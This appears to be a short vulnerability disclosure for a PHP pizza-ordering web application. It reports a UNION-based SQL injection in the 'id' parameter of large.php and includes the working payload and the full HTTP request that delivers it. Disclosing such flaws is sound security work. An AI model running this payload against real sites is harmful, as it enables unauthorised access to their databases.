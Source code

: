 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author: a-xsg

Website source address：https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /FriendlyIsPizzaWebsite/large.php

GET parameter 'id' exists SQL injection vulnerability

Payload:id=1 union all select null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null--

```
GET /FriendlyIsPizzaWebsite/large.php?id=1%20union%20all%20select%20null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null-- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

The concat statement executes successfully

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/1.png)
